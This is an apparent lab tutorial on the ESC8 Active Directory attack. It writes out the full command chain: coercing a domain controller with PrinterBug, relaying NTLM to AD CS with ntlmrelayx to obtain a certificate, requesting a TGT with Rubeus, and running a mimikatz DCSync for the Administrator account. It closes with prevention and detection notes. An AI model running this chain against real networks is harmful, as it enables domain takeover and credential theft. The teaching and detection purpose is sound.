 ## Description

Another attack we can abuse is relaying to ADCS to obtain a certificate, a technique known as ESC8.
Before, we used PrinterBug and Coercer to force computers to connect to any other computer. This time we will utilize PrinterBug and with the received reverse connection, we will relay to ADCS to obtain a certificate.

## Attack

We begin by configuring NTLMRelayx to forward incoming connections to the HTTP endpoint of our CA. The _--adcs_ switch makes it parse and displays the certificate if one is received.
```shell
impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs
```

Now we need the DC to connect to us, just like before.
```shell
python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123
```

We should see that an incoming request from DC2$ was relayed and we got a certificate. Now we copy the certificate and request a TGT in Windows.
```powershell
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:MIIRbQIBAzCCEScGCSqGSI<SNIP>
```

Being a Domain Controller,, we can now trigger DCSync.
```powershell
.\mimikatz.exe "lsadump::dcsync /user:Administrator" exit
```

## Prevention

This attack was possible because:
- We managed to coerce DC2 successfully.
- ADCS web enrollment does not enforce HTTPS (otherwise, relaying would fail and we wouldn't request a certificate).

Scan regularly the environment to find potential issues.

## Detection

Starting from the beginning, when the certificate is requested, we will see that the CA has flagged both the requests and the issuer of the certificate in events ID 4886 and 4887.
Then, we utilized the certificate to obtain a TGT, resulting in event ID 4768.
Finally, when we performed DCSync, we get an event ID 4624 indicating successful logon.
